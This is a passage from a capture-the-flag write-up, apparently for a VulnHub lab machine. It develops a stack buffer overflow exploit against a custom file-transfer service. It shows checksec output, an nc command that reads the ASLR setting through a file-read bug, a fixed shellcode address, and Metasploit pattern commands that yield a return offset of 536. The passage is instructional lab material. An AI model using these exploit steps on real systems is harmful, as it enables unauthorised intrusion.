 The `ptr` variable is modified before to cut of the header and then 2000 bytes are written to `data`. This copies way more bytes into `data` as it is able to hold (`char data[500];`).

As we have the binary we can load it in `gdb` and check if there are any protections in place
```
gdb-peda$ checksec
CANARY    : disabled
FORTIFY   : disabled
NX        : disabled
PIE       : disabled
RELRO     : disabled
```

We can also check the ASLR status with the file read vulnerability:
```
root@kali:~/baffle# python -c 'print("\x01\x01/proc/sys/kernel/randomize_va_spaceaaaaaa")' | nc 192.168.56.2 6969
2
```

So the only protection active is ASLR but the executable is compiled without PIE. At the disassembling we can see the code variable `to_write` is located at the fixed location `0x600de0`. As the memcpy executed before our vulnerability copies 500 bytes to this location we can plant our evil shellcode there and jump right to it.

![binaryninja](/img/vulnhub_dc416_baffle/binaryninja_ctftp_to_write.png)

To exploit the vulnerability we first need to be sure we reach the vulnerable `memcpy`. By looking at the `hellofriend.c` file we can identify the following conditions that must be met:

* request type 0x02 with 2 bytes
* the `file_len` variable is a `strlen` of the whole input. As the `read` function does not stop at null bytes but the `strlen` does we can simply trick it by adding a null byte.
* After the null byte we need to add another 6 bytes
* After the 6 bytes we can plant our malicous code

First we need to get the exact offset where we are able to control our return so let's create a pattern with a valid header:
```
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 1000 > pattern
python -c 'print("\x02\x02asdf\x00aaaaaa")' | tr -d "\n" > test.txt
cat pattern >> test.txt
```

Then run it in gdb:
```
r < test.txt
```

We can see the `ret` instruction would return to `8Ar9As0As1....` so we view the hex representation of the address `rsp` points to:
```
gdb-peda$ x/1xg 0x7fffffffdc98
0x7fffffffdc98:	0x4130734139724138
```

We can now get the exact offset with `pattern_offset.rb` which is `536`:
```
root@kali:~/baffle# /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 1000 -q 0x4130734139724138
[*] Exact match at offset 536
```

